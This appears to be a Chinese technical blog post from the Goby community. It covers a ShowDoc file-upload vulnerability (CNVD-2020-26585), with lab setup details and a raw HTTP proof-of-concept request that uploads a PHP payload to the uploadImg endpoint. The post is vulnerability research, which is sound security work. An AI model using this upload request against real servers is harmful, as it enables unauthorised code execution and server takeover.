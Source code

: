 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/koxjh1NNDr9u1Es0h6coiQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/GGOWG0fficjLTMIjhRPrloPMpJ4nXfwsIjLDB23mjUrGc3G8Qwo770yYCQAnyVhPGKiaSgfVu0HKnfhT4v5hSWcQ/640?wx_fmt=gif)  

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJ4l1LHCGgS2vtwUic6ufGajgQV73zqgAv38eJlZP1qoYTZIWsRkCaqyHPhw5HBVXhjD0YW8icMSibEA/640?wx_fmt=png)

Goby 社区第 16 篇技术分享文章

全文共：7495 字   预计阅读时间：19 分钟

**前言：**

**上篇＞＞**一个文件上传 1day 的 PoC 编写，从简单的 GUI 编写，不满足于是选择用 Go 语言编写，再到逐个使用 Goby 自带 API 优化 PoC，最终实现一键反弹 shell。不仅学习了 Go，也对 EXP 进一步的完善。

下篇＞＞代码审计，从一个为什么产生出发，不断地问自己问题，虽然是一次简单的代审，延伸出一次溯源，最后的收获远不止一次代码审计，而是学习方法！

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjKzq4TFicia2yUjianoH80KtrWElvrR0XQbqBDCHC68DicU6TwYLR54jEJE3rqy2icwicrV85dICfKrJsOQ/640?wx_fmt=png) **01**  

**准备工作**

**1.1 漏洞速览**

漏洞描述：Showdoc 存在文件上传漏洞，攻击者可以利用漏洞获取服务器权限。

漏洞影响：ShowDoc < V2.8.3

漏洞参考：https://www.cnvd.org.cn/flaw/show/CNVD-2020-26585

**1.2 环境搭建**

系统：Windows10

工具：PHPStudy2016，VScode，Goby，Burp

环境：showdoc-V2.6.7  https://github.com/star7th/showdoc

**1.3 PoC**

```
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: 127.0.0.1:81
Content-Type: multipart/form-data; boundary=---------------------------346031065719027724703329952952
Content-Length: 252
Connection: close

-----------------------------346031065719027724703329952952
Content-Disposition: form-data; 
Content-Type: text/plain

<?php phpinfo();?>
-----------------------------346031065719027724703329952952--
```

**1.4 复现**

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJ4l1LHCGgS2vtwUic6ufGajF0EXWZXhMYGzDsXvtwdAmMPYYhkqzroh3icWHEicF1cjKgPmMtJRbukA/640?wx_fmt=png)
